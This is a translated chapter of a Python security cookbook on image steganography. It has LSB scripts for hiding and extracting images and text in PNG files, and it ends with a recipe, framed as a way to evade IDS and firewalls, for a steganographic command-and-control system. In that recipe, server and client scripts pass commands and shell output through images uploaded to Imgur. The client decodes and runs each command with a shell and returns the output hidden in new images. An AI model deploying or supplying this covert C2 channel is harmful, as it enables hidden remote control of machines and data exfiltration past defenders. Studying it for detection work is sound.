

# 六、图像分析与处理

在本章中，我们将介绍以下配方：

*   使用 LSB 隐写术隐藏消息
*   提取 LSB 中隐藏的消息
*   在图像中隐藏文本
*   从图像中提取文本
*   使用隐写术的命令和控制

# 导言

隐写术是将数据隐藏在肉眼可见的地方的艺术。如果要遮罩轨迹，这可能很有用。我们可以使用隐写术来逃避防火墙和 IDS 的检测。在本章中，我们将了解 Python 可以帮助我们在图像中隐藏数据的一些方法。我们将使用**最低有效位**（**LSB**）进行一些基本的图像隐写来隐藏我们的数据，然后我们将创建一个自定义隐写功能。本章的高潮将是创建一个命令和控制系统，该系统使用我们精心制作的图像在服务器和客户端之间进行数据通信。

下图是一个图像的示例，其中隐藏了另一个图像。你可以看到（或者可能看不到）人眼不可能检测到任何东西：


# 使用 LSB 隐写术隐藏消息

在这个配方中，我们将使用 LSB 隐写术方法创建一个隐藏另一个图像的图像。这是最常见的隐写术形式之一。因为仅仅有一种隐藏数据的方法是不好的，我们还将编写一个脚本来提取隐藏的数据。

## 准备好了吗

我们将在本章中遇到的所有图像工作都将使用**Python 图像库**（**PIL**）。要在 Linux 上使用`PIP`安装 Python 映像库，请使用以下命令：

```py
$ pip install PIL

```

如果要在 Windows 上安装，可能需要使用[上提供的安装程序 http://www.pythonware.com/products/pil/](http://www.pythonware.com/products/pil/) 。

只需确保为您的 Python 版本安装了正确的安装程序。

值得注意的是，PIL 已被更新版本的枕头取代。但是为了我们的需要，PIL 会很好的。

## 怎么做…

图像是由像素创建的，每个像素都由红色、绿色和蓝色（RGB）值组成（对于彩色图像）。这些值的范围从 0 到 255，其原因是每个值的长度为 8 位。纯黑色像素将由（R（0）、G（0）、B（0））的元组表示，纯白色像素将由（R（255）、G（255）、B（255））表示。我们将重点关注第一个配方的`R`值的二进制表示。我们将采用 8 位值并更改最右边的位。这样做的原因是，对该位的更改将等于像素红色值的 0.4%以下的更改。这远远低于人眼所能检测到的。

现在让我们看一下这个脚本，然后我们将在后面介绍它是如何工作的：

```py
  #!/usr/bin/env python

from PIL import Image

def Hide_message(carrier, message, outfile):
    c_image = Image.open(carrier)
    hide = Image.open(message)
    hide = hide.resize(c_image.size)
    hide = hide.convert('1')
    out = Image.new('RGB', c_image.size)

    width, height = c_image.size

    new_array = []

    for h in range(height):
        for w in range(width):
            ip = c_image.getpixel((w,h))
            hp = hide.getpixel((w,h))
            if hp == 0: 
                newred = ip[0] & 254
            else: 
                newred = ip[0] | 1

            new_array.append((newred, ip[1], ip[2]))

    out.putdata(new_array)
    out.save(outfile)
    print "Steg image saved to " + outfile

Hide_message('carrier.png', 'message.png', 'outfile.png')
```

## 它是如何工作的…

首先，我们从`PIL`导入`Image`模块：

```py
from PIL import Image
```

然后，我们创建我们的`Hide_message`函数：

```py
def Hide_message(carrier, message, outfile):
```

此函数采用三个参数，如下所示：

*   `carrier`：这是我们用来隐藏其他图像的图像的文件名
*   `message`：这是我们要隐藏的图像的文件名
*   `outfile`：这是我们的函数将生成的新文件的名称

接下来，我们打开载体和消息图像：

```py
c_image = Image.open(carrier)
hide = Image.open(message)
```

然后我们操纵我们将隐藏的图像，使其与载体图像的大小（宽度和高度）相同。我们还将要隐藏的图像转换为纯黑白。这是通过将图像模式设置为`1`完成的：

```py
hide = hide.resize(c_image.size)
hide = hide.convert('1')
```

接下来，我们创建一个新图像，并将图像模式设置为 RGB，大小设置为载体图像的大小。我们创建两个变量来保存载体图像宽度和高度的值，并设置一个数组；此阵列将保存我们的新像素值，我们最终将保存到新图像中，如下所示：

```py
out = Image.new('RGB', c_image.size)

width, height = c_image.size

new_array = []
```

接下来是我们函数的主要部分。我们需要得到要隐藏的像素的值。如果是黑色像素，则我们将载波红色像素的 LSB 设置为`0`，如果是白色，则需要将其设置为`1`。我们可以通过使用掩码的逐位操作轻松做到这一点。如果我们想将 LSB 设置为`0`，我们可以使用`254`将值设置为`AND`，或者如果我们想将值设置为`1`，我们可以使用`1`将值设置为`OR`。

我们循环遍历图像中的所有像素，一旦我们得到`newred`值，我们将这些值与原始的绿色和蓝色值一起附加到`new_array`中：

```py
    for h in range(height):
        for w in range(width):
            ip = c_image.getpixel((w,h))
            hp = hide.getpixel((w,h))
            if hp == 0: 
                newred = ip[0] & 254
            else: 
                newred = ip[0] | 1

            new_array.append((newred, ip[1], ip[2]))

    out.putdata(new_array)
    out.save(outfile)
    print "Steg image saved to " + outfile
```

在函数的末尾，我们使用`putdata`方法将我们的新像素值数组添加到新图像中，然后使用`outfile`指定的文件名保存文件。

需要注意的是，您必须将图像保存为 PNG 文件。这是一个重要的步骤，因为 PNG 是一种无损算法。例如，如果要将图像另存为 JPEG，则不会保留 LSB 值，因为 JPEG 使用的压缩算法将更改我们指定的值。

## 还有更多…

我们使用了红色值 LSB 来隐藏我们在这个配方中的图像；但是，您可以使用任意 RGB 值，甚至全部三个值。一些隐写术方法将在多个像素上分割 8 位，以便在 RGBRGBRG 上分割每个位，依此类推。当然，如果你想使用这种方法，你的载体图像需要比你想要隐藏的信息大得多。

## 另见

所以，我们现在有了一种隐藏图像的方法。在下面的配方中，我们将研究如何提取该消息。

# 提取 LSB 中隐藏的消息

这个配方将允许我们使用前面配方中的 LSB 技术提取隐藏在图像中的消息。

## 怎么做…

如前一个配方所示，我们使用 RGB 像素的`Red`值的 LSB 从我们想要隐藏的图像中隐藏黑色或白色像素。此配方将反转该过程，将隐藏的黑白图像从载体图像中拉出。让我们来看看这样做的功能：

```py
#!/usr/bin/env python

from PIL import Image

def ExtractMessage(carrier, outfile):
    c_image = Image.open(carrier)
    out = Image.new('L', c_image.size)
    width, height = c_image.size
    new_array = []

    for h in range(height):
        for w in range(width):
            ip = c_image.getpixel((w,h))
            if ip[0] & 1 == 0:
                new_array.append(0)
            else:
                new_array.append(255)

    out.putdata(new_array)
    out.save(outfile)
    print "Message extracted and saved to " + outfile

ExtractMessage('StegTest.png', 'extracted.png')
```

## 它是如何工作的…

首先我们从 Python 镜像库导入`Image`模块：

```py
from PIL import Image
```

接下来，我们设置用于提取消息的函数。该函数接受两个参数：`carrier`图像文件名和我们要用提取的图像创建的文件名：

```py
def ExtractMessage(carrier, outfile):
```

接下来，我们从`carrier`图像创建一个`Image`对象。我们还为提取的数据创建新图像；此图像的模式设置为`L`，因为我们正在创建灰度图像。我们创建两个变量来保持载体图像的宽度和高度。最后，我们设置了一个数组，用于保存提取的数据值：

```py
c_image = Image.open(carrier)
out = Image.new('L', c_image.size)

width, height = c_image.size

new_array = []
```

现在，进入函数的主要部分：提取。我们创建`for`循环来迭代载体的像素。我们使用`Image`对象和`getpixel`函数返回像素的 RGB 值。为了从像素的红色值中提取 LSB，我们使用了位掩码。如果我们使用带有红色值的按位`AND`并使用`1,`掩码，那么如果 LSB 是`0,`，我们将返回一个`0`，如果它是`1`，我们将返回一个`1`。因此，我们可以将其放入`if`语句中，为新数组创建值。当我们创建灰度图像时，像素值的范围从`0`到`255`，因此，如果我们知道 LSB 是`1,`，我们将其转换为`255`。这差不多就是全部了。剩下要做的就是使用我们的新图像`putdata`方法从数组中创建图像，然后保存。

## 还有更多…

到目前为止，我们已经研究了将一个图像隐藏在另一个图像中，但是有许多其他方法可以将不同的数据隐藏在其他载体中。有了这个提取功能和之前隐藏图像的方法，我们就可以通过消息发送和接收命令了，但是我们必须找到更好的发送实际命令的方法。下一个方法将着重于在图像中隐藏实际文本。

# 在图像中隐藏文本

在之前的配方中，我们已经研究了在另一个配方中隐藏图像。这一切都很好，但本章的主要目的是传递可以在命令和控件样式格式中使用的文本。此方法的目的是在图像中隐藏一些文本。

## 怎么做…

到目前为止，我们关注的是像素的 RGB 值。在 PNGs 中，我们可以访问另一个值，`A`值。`RGBA`的`A`值是该像素的透明度级别。在这个配方中，我们将使用这种模式，因为它将允许我们在 LSB 中跨两个像素存储每个值的 8 位。这意味着我们可以在两个像素上隐藏一个`char`值，因此我们需要一个像素计数至少是我们试图隐藏字符数两倍的图像。

让我们看一下脚本：

```py
from PIL import Image

def Set_LSB(value, bit):
    if bit == '0':
        value = value & 254
    else:
        value = value | 1
    return value

def Hide_message(carrier, message, outfile):
    message += chr(0)
    c_image = Image.open(carrier)
    c_image = c_image.convert('RGBA')

    out = Image.new(c_image.mode, c_image.size)
    pixel_list = list(c_image.getdata())
    new_array = []

    for i in range(len(message)):
        char_int = ord(message[i])
        cb = str(bin(char_int))[2:].zfill(8)
        pix1 = pixel_list[i*2]
        pix2 = pixel_list[(i*2)+1]
        newpix1 = []
        newpix2 = []

        for j in range(0,4):
            newpix1.append(Set_LSB(pix1[j], cb[j]))
            newpix2.append(Set_LSB(pix2[j], cb[j+4]))

        new_array.append(tuple(newpix1))
        new_array.append(tuple(newpix2))

    new_array.extend(pixel_list[len(message)*2:])

    out.putdata(new_array)
    out.save(outfile)
    print "Steg image saved to " + outfile

Hide_message('c:\\python27\\FunnyCatPewPew.png', 'The quick brown fox jumps over the lazy dogs back.', 'messagehidden.png')
```

## 它是如何工作的…

首先，我们从`PIL`导入`Image`模块：

```py
from PIL import Image
```

接下来，我们设置一个 helper 函数，该函数将帮助根据要隐藏的二进制文件设置传入值的 LSB：

```py
def Set_LSB(value, bit):
    if bit == '0':
        value = value & 254
    else:
        value = value | 1
    return value
```

我们使用位掩码根据传入的二进制值是`1`还是`0`来设置 LSB。如果是一个`0,`我们使用位`AND`和`254`（11111110）掩码，如果是一个`1,`我们使用位`OR`和`1`（00000001）掩码。结果值从函数返回。

接下来，我们创建主要的`Hide_message`方法，该方法采用三个参数：载体图像的文件名、要隐藏的消息的字符串，以及我们将为输出创建的图像的文件名：

```py
def Hide_message(carrier, message, outfile):
```

下一行代码将`0x00`的值添加到字符串的末尾。这在提取函数中很重要，因为它会让我们知道我们已经到达隐藏文本的末尾。我们使用`chr()`函数将`0x00`转换为字符串友好表示：

```py
message += chr(0)
```

下面的代码部分创建了两个图像对象：一个是载体，另一个是输出图像。对于载体图像，我们将模式更改为`RGBA`，以确保每个像素有四个值。然后我们创建几个数组：`pixel_list`是我们载体图像的所有像素数据，`new_array`将保存我们组合的`carrier`和`message`图像的所有新像素值：

```py
c_image = Image.open(carrier) 
c_image = c_image.convert('RGBA')
out = Image.new(c_image.mode, c_image.size)

pixel_list = list(c_image.getdata())
new_array = []
```

接下来，我们在`for`循环中循环消息中的每个字符：

```py
for i in range(len(message)):
```

我们首先将角色转换为一个`int`：

```py
char_int = ord(message[i])
```

然后我们将该`int`转换为二进制字符串，我们将`zfill`字符串转换为`8`字符长。这将使以后更容易。当您使用`bin(),`时，它将以 0 位作为字符串的前缀，因此`[2:]`只是将其去掉：

```py
cb = str(bin(char_int))[2:].zfill(8)
```

接下来，我们创建两个像素变量并填充它们。我们使用当前消息字符索引`*2`作为第一个像素，使用（当前消息字符索引`*2`和`1`作为第二个像素。这是因为我们每个字符使用两个像素：

```py
pix1 = pixel_list[i*2]
pix2 = pixel_list[(i*2)+1]
```

接下来，我们创建两个数组来保存隐藏数据的值：

```py
newpix1 = []
newpix2 = []
```

现在一切都设置好了，我们可以开始更改我们迭代`4`次的像素数据的值（对于`RGBA`值），并调用我们的助手方法来设置 LSB。`newpix1`函数将包含 8 位字符的前 4 位；`newpix2`将有最后一个`4`：

```py
for j in range(0,4):
            newpix1.append(Set_LSB(pix1[j], cb[j]))
            newpix2.append(Set_LSB(pix2[j], cb[j+4]))
```

一旦我们有了新的值，我们将把它们转换成元组，并将它们附加到`new_array:`中

```py
new_array.append(tuple(newpix1))
new_array.append(tuple(newpix2))
```

下图描述了我们将实现的目标：



剩下要做的就是用我们载体图像的剩余像素扩展`new_array`方法，然后使用传递给`Hide_message`函数的`filename`参数保存它：

```py
new_array.extend(pixel_list[len(message)*2:])

out.putdata(new_array)
out.save(outfile)
print "Steg image saved to " + outfile
```

## 还有更多…

正如在本配方开始时所述，我们需要确保载体图像像素数是我们想要隐藏的消息大小的两倍。我们可以添加一个检查，如下所示：

```py
if len(message) * 2 < len(list(image.getdata())):
  #Throw an error and advise the user
```

这就是这个食谱的基本内容；现在，我们可以在图像中隐藏文本，并且使用前面的方法，我们也可以隐藏图像。在下一个配方中，我们将提取文本数据。

# 从图像中提取文本

在前面的配方中，我们看到了如何在图像的`RGBA`值中隐藏文本。这个配方可以让我们把数据提取出来。

## 怎么做…

我们在前面的配方中看到，我们将一个字符字节拆分为 8 位，并将它们分布在两个像素的 LSB 上。这张图再次作为复习：


以下是将执行提取的脚本：

```py
from PIL import Image
from itertools import izip

def get_pixel_pairs(iterable):
    a = iter(iterable)
    return izip(a, a)

def get_LSB(value):
    if value & 1 == 0:
        return '0'
    else:
        return '1'

def extract_message(carrier):
    c_image = Image.open(carrier)
    pixel_list = list(c_image.getdata())
    message = ""

    for pix1, pix2 in get_pixel_pairs(pixel_list):
        message_byte = "0b"
        for p in pix1:
            message_byte += get_LSB(p)

        for p in pix2:
            message_byte += get_LSB(p)

        if message_byte == "0b00000000":
            break

        message += chr(int(message_byte,2))
    return message

print extract_message('messagehidden.png')
```

## 它是如何工作的…

首先我们从`PIL`导入`Image`模块；我们还从`itertools`导入`izip`模块。`izip`模块将用于返回像素对：

```py
from PIL import Image
from itertools import izip
```

接下来，我们创建两个助手函数。`get_pixel_pairs`函数接收我们的像素列表并返回对；由于每个消息字符被拆分为两个像素，因此提取更容易。另一个助手函数`get_LSB`将接受一个`R`、`G`、`B`或`A`值，并使用位掩码获取 LSB 值并以字符串格式返回：

```py
def get_pixel_pairs(iterable):
    a = iter(iterable)
    return izip(a, a)

def get_LSB(value):
    if value & 1 == 0:
        return '0'
    else:
        return '1'
```

接下来，我们有我们的主要`extract_message`功能。这将接收我们的运营商映像的文件名：

```py
def extract_message(carrier):
```

然后我们根据传入的文件名创建一个图像对象，然后根据图像数据创建一个像素数组。我们还创建了一个名为`message`的空字符串；这将保存我们提取的文本：

```py
c_image = Image.open(carrier)
pixel_list = list(c_image.getdata())
message = ""
```

接下来，我们创建一个`for`循环，该循环将迭代使用辅助函数`get_pixel_pairs;`返回的所有像素对。我们将返回的像素对设置为`pix1`和`pix2:`

```py
for pix1, pix2 in get_pixel_pairs(pixel_list):
```

我们将创建的代码的下一部分是一个字符串变量，它将保存二进制字符串。Python 知道它将是由`0b`前缀表示的字符串的二进制表示。然后，我们迭代每个像素（`pix1`和`pix2`中的`RGBA`值，并将该值传递给我们的帮助函数`get_LSB`，返回的值附加到二进制字符串上：

```py
message_byte = "0b"
for p in pix1:
    message_byte += get_LSB(p)
for p in pix2:
    message_byte += get_LSB(p)
```

当前面的代码运行时，我们将获得隐藏字符的二进制字符串表示形式。字符串将类似于`0b01100111`，我们在隐藏的消息末尾放置了一个停止字符，即`0x00`，当提取部分输出时，我们需要打破`for`循环，因为我们知道我们已经到达隐藏文本的末尾。下一部分为我们进行检查：

```py
if message_byte == "0b00000000":
            break
```

如果它不是我们的停止字节，那么我们可以将该字节转换为其原始字符，并将其附加到消息字符串的末尾：

```py
message += chr(int(message_byte,2))
```

剩下要做的就是从函数返回完整的消息字符串。

## 还有更多…

现在我们有了隐藏和提取函数，我们可以将它们组合成一个类，用于下一个配方。我们将添加一个检查，以测试该类是否已被其他类使用，或者是否正在自己运行。整个脚本如下所示。`hide`和`extract`函数已稍微修改，以接受图像 URL；此脚本将在[第 8 章](8.html "Chapter 8. Payloads and Shells")、*有效载荷和Shell*中的 C2 示例中使用：

```py
#!/usr/bin/env python

import sys
import urllib
import cStringIO

from optparse import OptionParser
from PIL import Image
from itertools import izip

def get_pixel_pairs(iterable):
    a = iter(iterable)
    return izip(a, a)

def set_LSB(value, bit):
    if bit == '0':
        value = value & 254
    else:
        value = value | 1
    return value

def get_LSB(value):
    if value & 1 == 0:
        return '0'
    else:
        return '1'

def extract_message(carrier, from_url=False):
    if from_url:
        f = cStringIO.StringIO(urllib.urlopen(carrier).read())
        c_image = Image.open(f)
    else:
        c_image = Image.open(carrier)

    pixel_list = list(c_image.getdata())
    message = ""

    for pix1, pix2 in get_pixel_pairs(pixel_list):
        message_byte = "0b"
        for p in pix1:
            message_byte += get_LSB(p)

        for p in pix2:
            message_byte += get_LSB(p)

        if message_byte == "0b00000000":
            break

        message += chr(int(message_byte,2))
    return message

def hide_message(carrier, message, outfile, from_url=False):
    message += chr(0)
    if from_url:
        f = cStringIO.StringIO(urllib.urlopen(carrier).read())
        c_image = Image.open(f)
    else:
        c_image = Image.open(carrier)

    c_image = c_image.convert('RGBA')

    out = Image.new(c_image.mode, c_image.size)
    width, height = c_image.size
    pixList = list(c_image.getdata())
    newArray = []

    for i in range(len(message)):
        charInt = ord(message[i])
        cb = str(bin(charInt))[2:].zfill(8)
        pix1 = pixList[i*2]
        pix2 = pixList[(i*2)+1]
        newpix1 = []
        newpix2 = []

        for j in range(0,4):
            newpix1.append(set_LSB(pix1[j], cb[j]))
            newpix2.append(set_LSB(pix2[j], cb[j+4]))

        newArray.append(tuple(newpix1))
        newArray.append(tuple(newpix2))

    newArray.extend(pixList[len(message)*2:])

    out.putdata(newArray)
    out.save(outfile)
    return outfile   

if __name__ == "__main__":

    usage = "usage: %prog [options] arg1 arg2"
    parser = OptionParser(usage=usage)
    parser.add_option("-c", "--carrier", dest="carrier",
                help="The filename of the image used as the carrier.",
                metavar="FILE")
    parser.add_option("-m", "--message", dest="message",
                help="The text to be hidden.",
                metavar="FILE")
    parser.add_option("-o", "--output", dest="output",
                help="The filename the output file.",
                metavar="FILE")
    parser.add_option("-e", "--extract",
                action="store_true", dest="extract", default=False,
                help="Extract hidden message from carrier and save to output filename.")
    parser.add_option("-u", "--url",
                action="store_true", dest="from_url", default=False,
                help="Extract hidden message from carrier and save to output filename.")

    (options, args) = parser.parse_args()
    if len(sys.argv) == 1:
        print "TEST MODE\nHide Function Test Starting ..."
        print hide_message('carrier.png', 'The quick brown fox jumps over the lazy dogs back.', 'messagehidden.png')
        print "Hide test passed, testing message extraction ..."
        print extract_message('messagehidden.png')
    else:
        if options.extract == True:
            if options.carrier is None:
                parser.error("a carrier filename -c is required for extraction")
            else:
                print extract_message(options.carrier, options.from_url)
        else:
            if options.carrier is None or options.message is None or options.output is None:
                parser.error("a carrier filename -c, message filename -m and output filename -o are required for steg")
            else:
                hide_message(options.carrier, options.message, options.output, options.from_url)
```

# 使用隐写术启用命令和控制

这个配方将展示如何使用隐写术来控制另一台机器。如果您试图躲避**入侵检测系统**（**IDS**））/防火墙，这将非常方便。在这个场景中，会看到的唯一流量是进出客户端机器的 HTTPS 流量。此配方将显示基本的服务器和客户端设置。

## 准备好了吗

在这个配方中，我们将使用图像共享网站 Imgur 来托管我们的图像。原因很简单，就是用于 Imgur 的 pythonapi 易于安装和使用。不过，你可以选择和另一个人一起工作。但是，如果您希望使用此脚本并注册应用程序以获取 API 密钥和密码，则需要使用 Imgur 创建一个帐户。完成后，您可以使用`pip:`安装`imgur`Python 库

```py
$ pip install imgurpython

```

您可以在[注册账户 http://www.imgur.com](http://www.imgur.com) 。

注册帐户后，您可以注册应用程序，从[获取 API 密钥和密码 https://api.imgur.com/oauth2/addclient](https://api.imgur.com/oauth2/addclient) 。

拥有 imgur 帐户后，您需要创建一个相册并将图像上载到其中。

此配方还将从上一配方导入完整的 stego 文本脚本。

## 怎么做…

这个食谱的运作方式分为两部分。我们将有一个脚本运行并充当服务器，另一个脚本运行并充当客户端。我们的脚本将遵循的基本步骤如下所示：

1.  服务器脚本已运行。
2.  服务器等待客户端宣布它已准备就绪。
3.  客户端脚本正在运行。
4.  客户端通知服务器它已经准备好了。
5.  服务器显示客户端正在等待，并提示用户将命令发送到客户端。
6.  服务器发送一个命令。
7.  服务器等待响应。
8.  客户端接收命令并运行它。
9.  客户端将命令的输出发送回服务器。
10.  服务器接收来自客户端的输出并将其显示给用户。
11.  重复步骤 5 至 10，直到发送`quit`命令。

考虑到这些步骤，让我们先看看服务器脚本：

```py
from imgurpython import ImgurClient
import StegoText, random, time, ast, base64

def get_input(string):
    ''' Get input from console regardless of python 2 or 3 '''
    try:
        return raw_input(string)
    except:
        return input(string)

def create_command_message(uid, command):
    command = str(base64.b32encode(command.replace('\n','')))
    return "{'uuid':'" + uid + "','command':'" + command + "'}"

def send_command_message(uid, client_os, image_url):
    command = get_input(client_os + "@" + uid + ">")
    steg_path = StegoText.hide_message(image_url, create_command_message(uid, command), "Imgur1.png", True)
    print "Sending command to client ..."
    uploaded = client.upload_from_path(steg_path)
    client.album_add_images(a[0].id, uploaded['id'])

    if command == "quit":
        sys.exit()

    return uploaded['datetime']

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."

loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
        else:
            print base64.b32decode(client_dict['response'])

        random.choice(client.default_memes()).link
        last_message_datetime = send_command_message(client_dict['uuid'],
        client_dict['os'],
        random.choice(client.default_memes()).link)
```

以下是我们客户的脚本：

```py
from imgurpython import ImgurClient
import StegoText
import ast, os, time, shlex, subprocess, base64, random, sys

def get_input(string):
    try:
        return raw_input(string)
    except:
        return input(string)

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("<YOUR IMGUR USERNAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice(client.default_memes()). link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']

while True:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}", "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

## 它是如何工作的…

首先，我们创建一个`imgur`客户端对象；authenticate 函数处理使用我们的帐户和应用程序对`imgur`客户端进行身份验证。当您运行脚本时，它将输出一个要访问的 URL，以获取要输入的 pin 码。然后它会为我们的 imgur 用户名获取一个相册列表。如果您尚未创建相册，脚本将失败，请确保您已准备好相册。我们将获取列表中的第一张相册，并获得该相册中包含的所有图像的进一步列表。

图像列表通过将最早上传的图像放在第一位来排序；为了让脚本正常工作，我们需要知道最新上传图像的时间戳，因此我们使用`[-1]`索引获取它并将其存储在变量中。完成此操作后，服务器将等待客户端连接：

```py
client = authenticate()
a = client.get_account_albums("<YOUR IMGUR ACCOUNT NAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."
```

一旦服务器等待客户端连接，我们就可以运行客户端脚本。客户端脚本的初始启动创建一个`imgur`客户端对象，就像服务器一样，而不是等待；但是，它会生成一条消息并将其隐藏在随机图像中。此消息包含客户端正在运行的`os`类型（这将使服务器用户更容易知道要运行的命令）、`ready`状态，以及客户端的标识符（如果您希望在脚本上展开以允许多个客户端连接到服务器）。

上传图像后，`last_message_datetime`功能设置为新的时间戳：

```py
client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']
```

服务器将等待，直到它看到消息；它通过使用`while`循环来实现这一点，并检查图像日期时间是否晚于我们启动它时保存的日期时间。一旦它看到有一个新的图像，它将下载它并提取信息。然后检查消息，看它是否是客户机就绪消息；如果是，则显示`uuid`客户端和`os`类型，并提示用户输入：

```py
loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict = ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
```

用户输入命令后，使用 base32 对其进行编码，以避免破坏我们的消息字符串。然后将其隐藏在随机图像中，并上传到 imgur。客户端处于等待此消息的 while 循环中。这个循环的开始检查日期时间的方式与我们的服务器相同；如果它看到一个新的图像，它会检查是否使用`uuid`将其发送到此机器，如果是，它会提取消息，将其转换为友好的格式，`Popen`将使用`shlex,`接受该格式，然后使用`Popen`运行该命令。然后，它等待命令的输出，然后将其隐藏在随机图像中并上载到 imgur：

```py
loop = True
while loop:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}",  "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

服务器只需获取新图像，提取隐藏输出，并将其显示给用户即可。然后它给出一个新的提示并等待下一个命令。就这样,；这是一种通过隐写术传递命令和控制数据的非常简单的方法。